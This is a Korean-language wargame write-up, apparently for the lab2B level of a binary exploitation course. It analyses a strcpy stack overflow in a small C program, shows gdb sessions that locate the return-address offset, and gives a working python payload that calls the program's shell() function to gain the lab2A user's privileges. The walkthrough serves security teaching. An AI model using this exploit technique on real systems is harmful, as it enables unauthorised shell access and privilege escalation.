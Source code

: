 ## 1. 문제 확인
- ID : lab2B
- Target : /level/lab02/lab2B
- flag : /home/lab2A/.pass
```
	lab2B@warzone:/levels/lab02$ ./lab2B
	usage:
	./lab2B string
	lab2B@warzone:/levels/lab02$ ./lab2B g4nzzi
	Hello g4nzzi
	lab2B@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2B.c -o lab2B
 	*/

	char* exec_string = "/bin/sh";

	void shell(char* cmd)
	{
    	    system(cmd);
	}

	void print_name(char* input)
	{
    	    char buf[15];
            strcpy(buf, input);
            printf("Hello %s\n", buf);
	}

	int main(int argc, char** argv)
	{
            if(argc != 2)
            {
                printf("usage:\n%s string\n", argv[0]);
                return EXIT_FAILURE;
            }

            print_name(argv[1]);

            return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 실행 인자값(argv)이 1개일 경우, main()함수에서 print_name(argv[1])함수를 호출함
```c
	int main(int argc, char** argv)
	{
            if(argc != 2)
            {
 		...
            }

            print_name(argv[1]);
        }
```
- print_name()함수에서 strcpy()함수로 실행 인자값(input)을 buf에 복사할 때 overflow 취약점 존재 
```c
	void print_name(char* input)
	{
    	    char buf[15];
            strcpy(buf, input);
            ...
	}
```
- buf를 이용해 stack 메모리를 덮어쓰면, print_name()함수를 끝내고 main()함수로 돌아갈 주소를 shell()함수 주소로 변경 가능
```
	[XXXXXXXXXXXXXXX] [SFP] [RET]
               buf              main() <-- shell() 주소로 변경
```
- shell()함수에 exec_string값을 인자값으로 전달하면 "/bin/sh"로 system()함수를 호출하여 쉘 획득
```
	[XXXXXXXXXXXXXXX] [SFP]  [RET]   [argv]
               buf               main() 
                                   ^         ^ 
                                   |         |
                                shell()  exec_string
```

<br/><br/>
## 3. Exploit
- main()함수 리턴주소 위치를 계산해보니 실행 인자값(input)에서 27byte 떨어진 위치에 있음
```
	gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
	Starting program: /levels/lab02/lab2B AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
    ...
	Stopped reason: SIGSEGV
	0x48484847 in ?? ()
```
```
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
                                   ^
                   (27byte)        |
``` 
- 해당 위치에 shell()함수 주소값, 복귀 주소값, exec_string 주소값이 덮어써지도록 하면 됨
  (복귀 주소는 shell() 호출 이후 복귀할 주소를 뜻하므로 임의로 4byte 채워주면 됨)
```
    [XXXXXXXXXXXXXXXXXXXXXXX] [SFP]   [RET]    [RET]   [argv]
           buf + dummy                main() 
            (23byte)         (4byte) (4byte)  (4byte)  (4byte)
                                        |        |        |
                                     shell()  복귀 주소  exec_string
```
- 전역변수인 exec_string 값 "/bin/sh"의 주소는 0x80487d0 이고 shell()함수의 주소는 0x80486bd
```
	gdb-peda$ find "/bin/sh"
	Searching for '/bin/sh' in: None ranges
	Found 3 results, display max 3 items:
	lab2B : 0x80487d0 ("/bin/sh")
	lab2B : 0x80497d0 ("/bin/sh")
	 libc : 0xb7f83a24 ("/bin/sh")
```
```
	gdb-peda$ p shell
	$1 = {<text variable, no debug info>} 0x80486bd <shell>
```
- 실행 인자값으로 아래와 같이 입력하면 강제로 shell()함수 호출 후 쉘이 획득됨
```
	lab2B@warzone:/levels/lab02$ ./lab2B $(python -c 'print "A"*27+"\xbd\x86\x04\x08" + "BBBB" + "\xd0\x87\x04\x08"')
	Hello AAAAAAAAAAAAAAAAAAAAAAAAAAA▒BBBBЇ
	$ id
		uid=1007(lab2B) gid=1008(lab2B) euid=1008(lab2A) groups=1009(lab2A),1001(gameuser),1008(lab2B)
	$
```

